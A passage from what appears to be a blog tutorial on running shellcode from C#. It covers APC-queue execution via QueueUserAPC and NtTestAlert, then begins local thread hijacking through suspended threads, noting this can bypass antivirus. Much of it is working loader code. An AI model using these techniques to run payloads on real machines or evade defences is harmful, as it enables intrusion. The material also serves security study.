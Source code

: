 We can use the APC queue to add an APC object that points to our shellcode to the executing thread (our main thread) and make it enter an alertable state, which in turn will cause the thread to view and run objects within its APC queue. But how do we make a thread just enter an alertable state without making it wait for some other object (i.e. another thread?), well theres a native API function called NtTestAlert which will empty the calling thread's APC queue (pretending it was put into an alertable state). Cool, so we can call QueueUserAPC on the current thread, and then call the NtTestAlert function to empty the APC queue and run the APC object we added.<br/><br/>
First we get a handle to the calling thread by calling the GetCurrentThread Win32 API to get a handle to the calling thread. The P/Invoke signature for this is:
{% highlight csharp %}
[DllImport("kernel32.dll")]
private static extern IntPtr GetCurrentThread();
{% endhighlight %}
Which we can call to get the handle:
{% highlight csharp %}
IntPtr pt = GetCurrentThread();
{% endhighlight %}
Now we call QueueUserAPC. The P/Invoke signature for this is:
{% highlight csharp %}
[DllImport("kernel32.dll")]
public static extern IntPtr QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);
{% endhighlight %}
The first argument is a pointer to the function to run (function pointer, specifically this a pointer to an APC function), in our case this the pointer to the shellcode we want to execute, second is a handle (IntPtr) to the thread we want to add to its queue. The last argument is a pointer to the parameter's we want to pass to our APC function, since we aren't passing parameters to the APC function, we just pass in a NULL pointer (IntPtr.Zero). This means we run the following to add to the queue:
{% highlight csharp %}
IntPtr ptr = QueueUserAPC(rwxMemory, pt, IntPtr.Zero);
{% endhighlight %}
Lastly we call NtTestAlert to make the calling thread empty it's APC queue and run the APC objects (including our shellcode APC object). The P/Invoke signature for NtTestAlert is:
{% highlight csharp %}
[DllImport("ntdll.dll", SetLastError = true)]
public static extern IntPtr NtTestAlert();
{% endhighlight %}
Then we call it (finally executing our shellcode):
{% highlight csharp %}
NtTestAlert();
{% endhighlight %}

### LocalThread Highjacking
In the very first example, a thread was created that specifically pointed to the shellcode and executed on creation. Instead we can create a thread, then in a later step change what instruction its running (or will run) by manipulating its Instruction Pointer to instead point to the first instruction in our shellcode. Why would we do this? It allows you to perform essentially the same action in extra steps (which can sometimes bypass AV) but mainly its a remote process injection technique that can be applied to a local process.<br/><br/>
To do this, we first create a thread in a "suspended" state by using the CreateThread API (as used above):
{% highlight csharp %}
IntPtr hThread = CreateThread(IntPtr.Zero, 0, IntPtr.Zero, IntPtr.Zero, 0x00000004, out hThread);
{% endhighlight %}
The only difference in this call to the original shell code runner, is we pass 0x00000004 (CREATE_SUSPENDED) in the dwCreationFlag's argument (as appossed to 0 for run immediately).
Next we want to obtain the thread's "context". This is a structure of type CONTEXT, which contains information such as register values for the thread. We do this because we only want to modify the Instruction Pointer register, while allowing the thread to still run without issue, by keeping the rest of its context unmodified.<br/><br/>
